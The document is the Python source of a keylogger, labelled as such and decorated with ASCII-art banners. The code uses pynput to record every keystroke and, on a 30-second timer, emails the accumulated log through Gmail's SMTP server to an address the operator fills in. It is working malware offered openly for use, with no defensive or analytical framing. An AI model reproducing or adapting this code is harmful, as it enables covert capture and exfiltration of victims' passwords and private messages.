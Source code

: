 #Keylogger 
import pynput.keyboard
import smtplib
import threading
print('''  _____                 _                      _   _              _____           _                  __  __ 
 |  __ \               | |                    | | | |            / ____|         (_)                / _|/ _|
 | |  | | _____   _____| | ___  _ __   ___  __| | | |__  _   _  | |  __  __ _ ___ _ _ __ ___   ___ | |_| |_ 
 | |  | |/ _ \ \ / / _ \ |/ _ \| '_ \ / _ \/ _` | | '_ \| | | | | | |_ |/ _` / __| | '_ ` _ \ / _ \|  _|  _|
 | |__| |  __/\ V /  __/ | (_) | |_) |  __/ (_| | | |_) | |_| | | |__| | (_| \__ \ | | | | | | (_) | | | |  
 |_____/ \___| \_/ \___|_|\___/| .__/ \___|\__,_| |_.__/ \__, |  \_____|\__,_|___/_|_| |_| |_|\___/|_| |_|  
                               | |                        __/ |                                             
                               |_|                       |___/''')
print(''' __ _             _   _                 ___                                      
/ _| |_ __ _ _ __| |_(_)_ __   __ _    / _ \_ __ ___   ___ ___ ___ ___ ___       
\ \| __/ _` | '__| __| | '_ \ / _` |  / /_)| '__/ _ \ / __/ __/ _ / __/ __|      
_\ | || (_| | |  | |_| | | | | (_| | / ___/| | | (_) | (_| (_|  __\__ \__ \_ _ _ 
\__/\__\__,_|_|   \__|_|_| |_|\__, | \/    |_|  \___/ \___\___\___|___|___(_(_(_)
                              |___/       ''')
log=""

def callback_function(key):
    global log
    try:
        log=log + str(key.char)
    except AttributeError:
        if key==key.space:
            log=log + " "
        else:
            log=log + str(key)
    print(log)

def send_email(email,password,message):
    email_server=smtplib.SMTP("smtp.gmail.com",587)
    email_server.ehlo()
    email_server.starttls()
    email_server.login(email,password)
    email_server.sendmail(email,email,message)
    email_server.quit()

def thread_function():
    global log
    send_email("Your gmail address", "Your gmail password", log)
    log = ""
    timer_object=threading.Timer(30,thread_function)
    timer_object.start()

keylogger_listener=pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    thread_function()
    keylogger_listener.join()

